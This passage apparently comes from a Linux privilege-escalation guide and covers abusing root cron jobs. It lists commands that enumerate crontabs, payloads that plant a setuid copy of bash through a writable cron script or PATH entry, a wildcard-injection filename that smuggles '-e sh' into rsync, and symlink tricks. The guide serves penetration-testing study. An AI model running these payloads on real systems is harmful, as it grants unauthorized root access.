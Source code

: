 LightDM (Ubuntu Desktop)

lightdm

VSFTPd (Active FTP Connections)

vsftpd

Apache2 (Active HTTP Basic Auth Sessions)

apache2

OpenSSH (Active SSH Sessions - Sudo Usage)

sshd:

Scheduled/Cron jobs
Check if any scheduled job is vulnerable. Maybe you can take advantage of a script being executed by root (wildcard vuln? can modify files that root uses? use symlinks? create specific files in the directory that root uses?).

crontab -l
ls -al /etc/cron* /etc/at*
cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
Cron path
For example, inside /etc/crontab you can find the PATH: PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

(Note how the user "user" has writing privileges over /home/user)

If inside this crontab the root user tries to execute some command or script without setting the path. For example: * * * * root overwrite.sh
Then, you can get a root shell by using:

echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
#Wait cron job to be executed
/tmp/bash -p #The effective uid and gid to be set to the real uid and gid
Cron using a script with a wildcard (Wildcard Injection)
If a script being executed by root has a “*” inside a command, you could exploit this to make unexpected things (like privesc). Example:

rsync -a *.sh rsync://host.back/src/rbd #You can create a file called "-e sh myscript.sh" so the script will execute our script
If the wildcard is preceded of a path like /some/path/* , it's not vulnerable (even ./* is not).

Read the following page for more wildcard exploitation tricks:

Wildcards Spare tricks
/linux-unix/privilege-escalation/wildcards-spare-tricks
Cron script overwriting and symlink
If you can modify a cron script executed by root, you can get a shell very easily:

echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > </PATH/CRON/SCRIPT>
#Wait until it is executed
/tmp/bash -p
If the script executed by root uses a directory where you have full access, maybe it could be useful to delete that folder and create a symlink folder to another one serving a script controlled by you
